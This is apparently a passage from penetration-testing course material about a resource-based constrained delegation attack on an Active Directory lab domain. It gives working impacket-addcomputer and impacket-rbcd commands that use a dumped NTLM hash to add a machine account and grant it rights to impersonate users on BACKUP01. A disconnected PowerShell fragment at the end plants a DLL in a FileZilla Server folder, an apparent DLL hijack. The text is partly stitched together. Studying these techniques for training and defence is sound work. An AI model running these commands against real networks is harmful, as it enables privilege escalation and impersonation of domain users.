 > Listing 21 - Enumerating ms-DS-MachineAccountQuota

Normally, the computer account object is created when a physical computer is joined to the domain. However, we can create the object itself with the **impacket-addcomputer** command directly from Kali, using either the clear text password or NTLM hash of a domain user.

If performing the attack from Windows, we can use the _New-MachineAccount_ method of the _Powermad.ps1_[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5535-4) PowerShell script to avoid possible issues with DNS.

We'll simulate that we've dumped the hash for the _mary_ user earlier in the engagement and use it to create a new computer called _myComputer4_ with the password _h4x_.

```
kali@kali:~$ impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account myComputer$ with password h4x.
```

> Listing 22 - Adding myComputer to the domain using the mary NTLM hash

Great. The output indicates that the command was successful and that the _myComputer$_ account has been added to the domain.

Since _mary_ has GenericWrite on the _BACKUP01_ computer object, we should be able to edit the _msDS-AllowedToActOnBehalfOfOtherIdentity_ on it.

As mentioned before, the property stores the SID as a part of a security descriptor and it does this in a binary format. If we were doing this attack from Windows, we would obtain the computer SID for _myComputer_, convert it into a byte array to match the format for the _msDS-AllowedToActOnBehalfOfOtherIdentity_, and then use _Set-DomainObject_ to inject it.

In this case, we'll use the **impacket_rbcd** tool that does all of this for us. We need to specify what action to perform, which computer to delegate to, and which computer to delegate from.

```
kali@kali:~$ impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] myComputer$ can now impersonate users on BACKUP01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     myComputer$   (S-1-5-21-3515682028-2106700410-3524882512-12101)
```

> Listing 23 - Adding delegation permissions to BACKUP01

Excellent. As indicated in the output, _myComputer$_ can now impersonate users on _BACKUP01$_ via S4U2Proxy.

Now that we have set up resource-based constrained delegation and we have control over the computer object, the rest of the attack is very similar to what we did earlier with constrained delegation.


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"